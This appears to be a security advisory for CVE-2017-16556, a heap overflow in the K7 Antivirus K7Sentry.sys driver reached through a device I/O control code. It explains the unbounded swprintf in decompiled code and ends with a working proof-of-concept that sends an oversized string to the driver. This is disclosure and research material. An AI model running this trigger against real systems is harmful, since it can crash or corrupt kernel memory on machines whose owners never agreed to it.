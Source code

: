 # CVE-2017-16556

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 15.1.0.53* 
* **Component**: *K7Sentry.sys 15.1.0.45*

# See also
[CVE-2017-16550](../CVE-2017-16550/readme.md)


# Details
The issue lies in the dispatch handler for the IRP_MJ_DEVICE_CONTROL (sub_00018FC0). The handler code for IoControlCode 0x950025A4 makes use of a string routine which doesn't have any length limitations on it with user data that has not been validated, leading to a heap overflow.

The following simplified code snippets are decompiled output that make up this issue.
 

```C++
// Dispatch handler routine...
// See: CVE-2017-16550 for the setup of the stIoControlBuffer
case 0x950025A0:
    v9 = 1;
    goto LABEL_117;
case 0x950025A4:
    // Follow the function call down to find the issue. 
    // Also known as: sub_15BB0
    v9 = PrintfBugInHere(&stIoControlBuffer);
    goto LABEL_117;
case 0x950025A8:
    v9 = sub_15A10(&stIoControlBuffer);
    goto LABEL_117;
```

```C++
int __stdcall PrintfBugInHere(IoControlBuffer *pIoControlBuffer)
{
    // ... Locals ...

    pszString = (WCHAR *)pIoControlBuffer->pInputBuffer;
    *pIoControlBuffer->pdwIoStatusInformation = 0;
    if ( dword_287A8 )
    {
        // In here...
        cStr = *pszString;
        
        // Note: If we passed in an invalid buffer as the input, or a zero length buffer then this 
        // would be an out-of-bounds read, however the more interesting bug is later! 
        if ( *pszString < 'A' || cStr > 'Z' )
        {
            if ( wcsnicmp(pszString, L"\\\\?\\Volume", 0xAu) )
                return 0;
            pUnk7 = g_PointToMagic_K7CM;
        }
        else
        {
            v3 = cStr - 'A';
            if ( &v11 != (int *)0xFFFFFFF1 )
            v12 = byte_49642[672 * v3];
            pUnk7 = (unk7 *)dword_49650[168 * v3];
        }
        if ( pUnk7 )
        {
            // In here...
            if ( v12 )
            {
                // In here... and call this function.
                // This is wher
                if ( !GetNtfsFileReferenceNumber_PossibleFlaw(pszString, &dwFileReferenceNumber) )
    
    // ... not required for to illustrate the vuln.
}
```

```C++
char __stdcall GetNtfsFileReferenceNumber_PossibleFlaw(WCHAR *pszDeviceName, PVOID out_FileReferenceNumber)
{
    wchar_t *pBuffer_0x2000; // esi
    // Other locals...

    pBuffer_0x2000 = (wchar_t *)ExAllocatePool(PagedPool, 0x2000u);
    if ( pBuffer_0x2000 )
    {
        // An attacker can control pszDeviceName. 
        swprintf(pBuffer_0x2000, L"%s\\%s", L"\\DosDevices", pszDeviceName);
```

Following the code through, it allocates 0x2000 (4096) bytes from PagedPool and then uses an unbounded format string function to create the *\DosDevices\\...* path. *pszDeviceName* has come directly from the input buffer and has not had any validation performed. Some of the issues include:
* A string that is is larger than the buffer it is going to be written to. In this example (as it is UNICODE), the string length would need to be larger than:
  * (0x2000 / 2) - strlen("\DosDevices") - 1
  * Convert bytes to UNICODE characters - so the buffer can hold 0x1000 characters
  * 0x1000 - 11 (length of \DosDevices) - 1 (middle slash) = 0xff4 (4084)
  * So any string we can pass in that is > 4084 length, we can cause a heap overflow on the PagePool heap
* Another option would be to pass in a non-zero termianted string. This would cause an out-of-bounds read on the input buffer, potentially leading to a BSOD. (Didn't try this, went for the first option).


# PoC Code
```C++
BYTE inBuffer[0x40000] = { 0 };
BYTE outBuffer[0x4000] = { 0 };
DWORD dwBytesReturned = 0;
PWSTR pszInBuffer = (PWSTR)inBuffer;
HANDLE hDevice = INVALID_HANDLE_VALUE;

// Open a handle to the device
hDevice = CreateFileW(L"\\\\.\\k7sentry", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);

if (hDevice != INVALID_HANDLE_VALUE)
{
    // Fill it with a letter that isn't 0.
    for (DWORD i = 0; i < sizeof(inBuffer) / sizeof(WCHAR); ++i)
    {
        pszInBuffer[i] = 'C';
    }

    // Zero terminate teh string
    DWORD dwLastIndex = (sizeof(inBuffer) / sizeof(WCHAR)) - 1;
    inBuffer[dwLastIndex] = '\0';

    // Trigger the bug to cause to overflow on the PagePool heap.
    if (!DeviceIoControl(hDevice, 0x950025A4, inBuffer, sizeof(inBuffer), outBuffer, sizeof(outBuffer), &dwBytesReturned, NULL))
    {
        printf("Error: DeviceIoControl failed: 0x%08x\r\n", GetLastError());
    }
}

```
